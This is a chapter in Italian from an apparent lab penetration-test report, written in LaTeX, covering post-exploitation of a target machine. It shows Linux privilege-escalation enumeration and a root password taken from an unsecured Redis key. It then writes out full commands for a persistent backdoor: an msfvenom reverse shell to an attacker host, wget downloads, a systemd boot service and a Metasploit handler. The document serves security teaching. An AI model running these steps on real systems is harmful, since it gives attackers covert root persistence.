\phantomsection

\chapter{Post-Exploitation}
\markboth{Post-Exploitation}{}
La fase di \emph{Exploitation} ha portato all'acquisizione della macchina target mediante l'accesso al servizio \emph{SSH}. Nell'ambito della presente fase verranno illustrate le attività di \emph{Post-Exploitation} svolte, trattando, in particolare, la fase di \emph{Privilege Escalation} e quella di \emph{Maintaining Access}. 
\section{Privilege Escalation}
Ottenuto l'accesso all'utente \emph{`auxerre'} è stata studiata una strategia volta ad un'elevazione verticale dei privilegi al fine di ottenere l'accesso all'utente \emph{root}. Nei successivi paragrafi verranno illustrate le metodologie utilizzate per la \emph{privilege escalation}.
\subsection{Armitage}
In maniera analoga a quanto accaduto con la fase di \emph{Exploitation}, ci si è avvalsi dell'utilizzo del tool \emph{Armitage} al fine di individuare un exploit in grado di effettuare \emph{privilege escalation} sulla macchina target. Mediante l'interfaccia di \emph{Armitage} è stato effettuato il \emph{log in} al servizio \emph{SSH} della macchina target, per poi effettuare una scansione degli \emph{exploit} disponibili ed infine eseguirli in \emph{flood} mediante la funzionalità \emph{Hail Mary} già sfruttata in fase di \emph{Exploitation}. Tale operazione ha portato alla creazione di una sessione mediante l'\emph{exploit} \emph{`auxiliary/scanner/ssh/ssh\_login'} che è riuscito a stabilire una connessione \emph{SSH} con la macchina target, presumibilmente sfruttando le credenziali inserite in fase di \emph{log in} dall'interfaccia di \emph{Armitage}. Interagendo con la sessione stabilita, è stato verificato, mediante il comando \emph{`whoami'}, che l'accesso è stato effettuato con l'utente \emph{`auxerre} (figura \ref{fig:armitage_ssh}). Non è stato, dunque, rilevato un \emph{exploit} in grado di effettuare una \emph{privilege escalation}.
\begin{figure}[h]
    \centering
    
\includegraphics[scale=1]{capitoli/images/armitage_ssh.png}
    \caption{Sessione stabilita da \emph{Armitage}}
    \label{fig:armitage_ssh}
\end{figure}
\subsection{Tecniche manuali di \emph{privilege escalation}}
Il fallimento dell'utilizzo del tool \emph{Armitage} per effettuare \emph{privilege escalation} ha reso necessario l'utilizzo di tecniche manuali volte all'individuazione di una strategia per effettuare l'elevazione dei privilegi nella macchina target. Il primo passo di tale processo è stato eseguire alcune classiche operazioni al fine di individuare un servizio sfruttabile per la \emph{privilege escalation}.
\subsubsection{Ricerca di un eseguibile con il bit \emph{SETUID} acceso}
Nel contesto della gestione dei privilegi di \emph{Linux}, mediante l'utilizzo del bit \emph{SETUID}, è possibile modificare l'\emph{effective user ID} di un processo impostandolo allo \emph{user ID} dell'\emph{owner} del relativo eseguibile \cite{carrigan_2020}. Al fine di individuare un eseguibile di proprietà di \emph{root} avente il bit \emph{SETUID} acceso, è stato eseguito il comando:
\begin{lstlisting}[language=bash]
    $ find / -perm /u+s 2>/dev/null
\end{lstlisting}
\begin{figure}[h]
    \centering
    
\includegraphics[scale=1]{capitoli/images/suid.png}
    \caption{Ricerca di un eseguibile con il bit \emph{SETUID} acceso}
    \label{fig:suid}
\end{figure}
L'output del comando, illustrato nella figura \ref{fig:suid}, mostra che tutti gli eseguibili rilevati sono relativi a programmi e librerie di sistema e non si prestano ad essere sfruttati per un'operazione di \emph{privilege escalation}. 
\subsubsection{Analisi delle \emph{capabilities} degli eseguibili} 
Le classiche implementazioni di \emph{UNIX} consentono, mediante le \emph{capabilities} \cite{capabilities}, di abilitare e disabilitare dei privilegi associati ad un eseguibile, allo scopo di effettuare una gestione a grana fine dei permessi ad esso associati. Per esaminare le \emph{capabilities} associate agli eseguibili presenti sul sistema è stato eseguito il seguente comando:
\begin{lstlisting}[language=bash]
    $ /usr/sbin/getcap -r / 2>/dev/null
\end{lstlisting}
Il comando \emph{getcap} ha rilevato un eseguibile di sistema (\emph{ping}) a cui è associata la \emph{capability CAP\_NET\_RAW} che consente di forgiare pacchetti \emph{ad-hoc} (figura \ref{fig:getcap}). Non sono, dunque, stati individuati eseguibili aventi \emph{capabilities} che consentono di ottenere i privilegi di \emph{root}.
\begin{figure}[h]
    \centering
    
\includegraphics[scale=1]{capitoli/images/getcap.png}
    \caption{Output del tool \emph{getcap}}
    \label{fig:getcap}
\end{figure}
\subsubsection{Analisi dei servizi erogati dal sistema}
In fase di \emph{Target Enumeration} sono stati individuati due servizi erogati dalla macchina target: \emph{SSH} e \emph{HTTP}. Disponendo, nell'ambito di tale fase, di un accesso diretto alla macchina, risulta possibile individuare, in maniera esaustiva, tutti i servizi. Il primo passo è stato quello di esaminare le connessioni instaurate dalla macchina target. Dal momento che il tool \emph{netstat} non risulta essere installato sulla macchina target, ci si è avvalsi del tool \emph{ss}, mediante il seguente comando:
\begin{lstlisting}[language=bash]
    $ ss -utln
\end{lstlisting}
Tale tool consente di analizzare lo stato delle \emph{socket} aperte; in particolare l'opzione \emph{`-u'} serve a listare quelle di tipo \emph{UDP}, l'opzione \emph{`-t'} serve a listare quelle di tipo \emph{TCP}, l'opzione \emph{`-l'} serve a listare quelle in ascolto ed infine l'opzione \emph{`-n'} serve ad evitare la risoluzione dei servizi, mostrando i numeri delle porte. L'output del tool, mostrato nella figura \ref{fig:ss}, fa emergere la presenza di un'applicazione in ascolto sulla porta \emph{6379}.
\begin{figure}[h]
    \centering
    
\includegraphics[scale=0.6]{capitoli/images/ss.png}
    \caption{Output del comando \emph{ss}}
    \label{fig:ss}
\end{figure}
Al fine di individuare l'applicazione in questione è stato utilizzando il seguente comando:
\begin{lstlisting}[language=bash]
    $ ps aux | grep 6379
\end{lstlisting}
Dall'output del comando (figura \ref{fig:psaux}) risulta immediato stabilire che l'applicazione in ascolto sulla porta \emph{6379} risulta essere \emph{Redis}. 
\begin{figure}[h]
    \centering
    
\includegraphics[scale=0.6]{capitoli/images/psaux.png}
    \caption{Output del comando \emph{ps}}
    \label{fig:psaux}
\end{figure}
\subsubsection{Analisi del programma \emph{Redis}}
\emph{Redis} \cite{redis} è un key-value store open source utilizzato come database, cache, motore di streaming e message broker. Consultando la relativa documentazione, emerge la presenza del comando \emph{redis-cli} utilizzabile per eseguire una \emph{shell} che consente di interagire con \emph{Redis}. Mediante una lettura approfondita della documentazione è stato scoperto che per stampare tutte le chiavi conservate è possibile utilizzare il comando \emph{`KEYS *'}, che ha rilevato la presenza di una chiave chiamata \emph{`rootpass'}. Mediante il comando \emph{`GET rootpass'} (ancora una volta rilevato con l'ausilio della documentazione) si ottiene la stringa \emph{`m0mentum-al1enum'} (figura \ref{fig:rediscli}). 
\begin{figure}[h]
    \centering
    
\includegraphics[scale=1]{capitoli/images/rediscli.png}
    \caption{Ottenimento della password di \emph{root}}
    \label{fig:rediscli}
\end{figure}

L'identificativo della chiave associata a tale stringa lascia ben poco spazio all'immaginazione, rendendo chiaro che si tratti della password dell'utente \emph{root}. A seguito di tale scoperta, come mostrato nella figura \ref{fig:root}, è stato effettuato l'accesso all'utente \emph{root} utilizzando la password identificata, completando, dunque, la fase di \emph{privilege escalation} verticale.
\begin{figure}[h]
    \centering
    
\includegraphics[scale=1]{capitoli/images/root.png}
    \caption{Accesso all'account dell'utente \emph{root}}
    \label{fig:root}
\end{figure}
\section{Maintaining Access}
Ottenuti i massimi privilegi, è possibile installare una \emph{backdoor} all'interno della macchina target in modo da mantenere l'accesso anche in seguito ad un'eventuale \emph{patch} delle vulnerabilità identificate. Nell'ambito del presente processo di \emph{Penetration Testing} verrà installata sulla macchina target una \emph{backdoor} persistente che consiste in una \emph{reverse shell} che si collega alla macchina \emph{Kali} accettando comandi da essa.
\subsection{Generazione della \emph{backdoor} mediante \emph{Metasploit}}
\emph{Metasploit} mette a disposizione un tool, chiamato \emph{msfvenom} che consente di generare l'eseguibile di una \emph{reverse shell} pronta all'uso da installare sulla macchina target. Dalla macchina \emph{Kali}, è stata avviata la console di \emph{Metasploit} ed è stato eseguito il comando: 
\begin{lstlisting}[language=bash] 
    $ msfvenom -a x64 -platform linux -p linux/x64/shell/reverse_tcp 
            LHOST=10.0.2.15 LPORT=4444 -f elf -o shell.elf
\end{lstlisting}
Il vantaggio di tale approccio risiede nel fatto che la \emph{backdoor} generata non necessita di meccanismi di autenticazione, consentendo alla macchina \emph{Kali} di interagire liberamente con la macchina target. 
\subsection{Creazione dello script per l'avvio della \emph{reverse shell}}
Al fine di eseguire la \emph{backdoor} ad ogni avvio del sistema, è stato previsto uno \emph{script}, chiamato \emph{in.sh}, avente come unico obiettivo quello di richiamare in loop la \emph{reverse shell} precedentemente generata (figura \ref{fig:in}). La presenza del loop ha come scopo quello di evitare la terminazione della \emph{backdoor} al termine della prima interazione con la macchina \emph{Kali}. 
\begin{figure}[h]
    \centering
    
\includegraphics[scale=1]{capitoli/images/in.png}
    \caption{Script che avvia la \emph{reverse shell}}
    \label{fig:in}
\end{figure}
\subsection{Trasferimento della \emph{backdoor} sulla macchina target}
L'eseguibile della \emph{backdoor} ed il relativo \emph{script} che si occupa di richiamarla sono stati creati sulla macchina \emph{Kali} e successivamente trasferiti sulla macchina target sfruttando il \emph{Web Server} di \emph{Kali} ed il comando \emph{wget} della macchina target. In particolare, sulla macchina \emph{Kali}, i file \emph{`shell.elf'} e \emph{`in.sh'} sono stati inseriti nella directory \emph{`/var/www/html'} e successivamente è stato avviato il \emph{Web Server `apache2'} mediante il comando:
\begin{lstlisting}[language=bash] 
    $ sudo systemctl start apache2
\end{lstlisting}
D'altro canto, sulla macchina target è stato effettuato l'accesso come utente \emph{root} e sono stati prelevati i \emph{file} mediante una connessione al \emph{Web Server} di \emph{Kali} sfruttando i comandi:
\begin{lstlisting}[language=bash] 
    $ wget http://10.0.2.15/shell.elf
    $ wget http://10.0.2.15/in.sh
\end{lstlisting}
I file prelevati sono stati spostati nella \emph{directory `/etc/init.d'} e gli sono stati forniti i permessi di esecuzione mediante i comandi:
\begin{lstlisting}[language=bash] 
    $ chmod +x /etc/init.d/shell.elf
    $ chmod +x /etc/init.d/in.sh
\end{lstlisting}

\subsection{Attivazione della \emph{backdoor} come processo da eseguire all'avvio}
Al fine di eseguire la \emph{backdoor} ad ogni avvio del sistema, è necessario impostare il file \emph{in.sh} come servizio da eseguire all'avvio. A tale scopo è stato creato il file \emph{`/lib/systemd/system/shellscript.service.service'}, che funge da descrittore per il servizio da creare, avente il contenuto riportato nella figura \ref{fig:service}. 
Sono, infine, stati lanciati i seguenti comandi, al fine di abilitare ed eseguire il servizio appena definito:
\begin{lstlisting}[language=bash] 
    $ systemctl daemon-reload
    $ systemctl enable shellscript.service
    $ systemctl start shellscript.service
\end{lstlisting}
\begin{figure}[h]
    \centering
    
\includegraphics[scale=1]{capitoli/images/service.png}
    \caption{Descrittore del servizio relativo alla backdoor}
    \label{fig:service}
\end{figure}
\subsection{Collegamento alla \emph{backdoor} da parte della macchina \emph{Kali}}
In seguito all'installazione della \emph{backdoor} sulla macchina target risulta possibile accedervi dalla macchina \emph{Kali} senza l'utilizzo delle credenziali d'accesso. A tale scopo, risulta sufficiente aprire la console di \emph{Metasploit} ed eseguire i seguenti comandi per caricare l'\emph{exploit} ed il \emph{payload} che consentono di connettersi alla \emph{backdoor} creata:
\begin{lstlisting}[language=bash] 
    $ use exploit/multi/handler
    $ set LHOST 10.0.2.15
    $ set LPORT 4444
    $ set payload linux/x64/shell/reverse_tcp
    $ run
\end{lstlisting}
\begin{figure}[h]
    \centering
    
\includegraphics[scale=0.6]{capitoli/images/backdoor_access.png}
    \caption{Accesso alla macchina target mediante la \emph{backdoor}}
    \label{fig:backdoor_access}
\end{figure}
Come mostrato nella figura \ref{fig:backdoor_access}, ci si collega alla macchina target acquisendo immediatamente i privilegi di \emph{root} in quanto la \emph{reverse shell}, essendo stata installata con l'utente \emph{root}, viene eseguita con i relativi privilegi.